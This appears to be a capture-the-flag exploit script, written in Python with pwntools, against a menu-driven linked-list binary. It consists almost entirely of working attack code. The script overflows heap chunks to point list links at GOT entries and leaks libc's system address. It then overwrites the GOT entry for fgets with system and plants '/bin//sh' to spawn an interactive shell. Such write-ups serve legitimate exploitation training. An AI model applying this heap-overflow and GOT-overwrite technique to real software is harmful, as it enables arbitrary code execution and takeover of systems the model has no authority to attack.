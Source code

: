 ```py
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.system, 0x51]))

# View list (leak libc.system() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
system = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system (+1 for for stack alignment)
io.sendlineafter(b'>>>', flat(system + 1))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
